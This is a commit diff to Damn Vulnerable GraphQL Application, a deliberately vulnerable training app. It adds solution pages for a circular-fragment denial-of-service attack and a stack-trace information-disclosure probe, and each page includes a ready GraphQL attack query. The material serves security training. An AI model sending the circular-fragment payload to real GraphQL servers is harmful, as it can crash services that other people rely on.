

Before and after one commit to dolevf/Damn-Vulnerable-GraphQL-Application, a Flask app: page /solutions in a window 1280 px wide. Shown: the top 1712 px of the page at 74% size. Run offline with Flask 2, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post"); parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
add solutions

```diff
--- a/db/solutions.py
+++ b/db/solutions.py
@@ -18,4 +18,6 @@ solutions = [
     "partials/solutions/solution_17.html",
     "partials/solutions/solution_18.html",
     "partials/solutions/solution_19.html",
+    "partials/solutions/solution_20.html",
+    "partials/solutions/solution_21.html",
 ]
--- a/templates/partials/solutions/solution_17.html
+++ b/templates/partials/solutions/solution_17.html
@@ -1,5 +1,5 @@
 <!-- Start -->
-<h3 style="color:purple" id="bypassauthz-denylist"><b>GraphQL Query Deny List Bypass</b></h3>
+<h3 style="color:purple" id="bypassauthz-denylist"><b>Authorization Bypass :: GraphQL Query Deny List Bypass</b></h3>
 <hr />
 <h5>Problem Statement</h5>
 <p>
--- /dev/null
+++ b/templates/partials/solutions/solution_20.html
@@ -0,0 +1,42 @@
+<!-- Start -->
+<h3 style="color:purple" id="dos-circular-fragment"><b>Denial of Service :: Circular Fragment</b></h3>
+<hr />
+<h5>Problem Statement</h5>
+<p>
+  The GraphQL API allows creating circular fragments, such that two fragments are cross-referencing eachother.
+  When a Spread Operator (<code>...</code>) references a fragment, which in return references a 2nd fragment that leads to the former fragment, may cause a recursive loop and crash the server.
+</p>
+<h5>Resources</h5>
+<ul>
+  <li>
+    <a href="https://spec.graphql.org/October2021/#sec-Fragment-spreads-must-not-form-cycles" target="_blank">
+      <i class="fa fa-newspaper"></i> GraphQL Specification - Fragments Must Not Form Cycles
+    </a>
+  </li>
+  <li>
+    <a href="https://github.com/dolevf/graphql-cop" target="_blank">
+      <i class="fa fa-shield-alt"></i> GraphQL Cop - Security Auditing Tool for GraphQL
+    </a>
+  </li>
+</ul>
+<h5>Exploitation Solution <button class="reveal" onclick="reveal('sol-dos-circular-fragment')">Show</button></h5>
+<div id="sol-dos-circular-fragment" style="display:none">
+  <pre class="bash">
+query {
+    ...A
+}
+
+fragment A on PasteObject {
+    content
+    title
+    ...B
+}
+
+fragment B on PasteObject {
+    content
+    title
+    ...A
+}
+</pre>
+</div>
+<!-- End -->
--- /dev/null
+++ b/templates/partials/solutions/solution_21.html
@@ -0,0 +1,20 @@
+<!-- Start -->
+<h3 style="color:purple" id="info-stacktrace"><b>Information Disclosure :: Stack Trace Errors</b></h3>
+<hr />
+<h5>Problem Statement</h5>
+<p>
+  The dedicated GraphiQL API endpoint <code>/graphiql</code> throws stack traces and debugging messages upon erroneous queries.
+</p>
+<h5>Exploitation Solution <button class="reveal" onclick="reveal('sol-info-stacktrace')">Show</button></h5>
+<div id="sol-info-stacktrace" style="display:none">
+  <pre class="bash">
+# Navigate to /graphiql
+# Query using invalid syntax and observe the response.
+query {
+    pastes {
+        conteeeent
+    }
+}
+</pre>
+</div>
+<!-- End -->
--- a/templates/solutions.html
+++ b/templates/solutions.html
@@ -48,6 +48,9 @@
                         <li>
                           <a href="#dos-aliases">Aliases based Attack</a>
                         </li>
+                        <li>
+                          <a href="#dos-circular-fragment">Circular Fragment</a>
+                        </li>
                       </ul>
                     </li>
 
@@ -65,6 +68,9 @@
                         </li>
                         <li>
                           <a href="#info-ssrf">Server Side Request Forgery</a>
+                        </li>
+                        <li>
+                          <a href="#info-stacktrace">Stack Trace Errors</a>
                         </li>
                       </ul>
                     </li>
--- a/version.py
+++ b/version.py
@@ -1 +1 @@
-VERSION = '2.0.5'
+VERSION = '2.0.6'
```
Also changed, not shown: README.md.
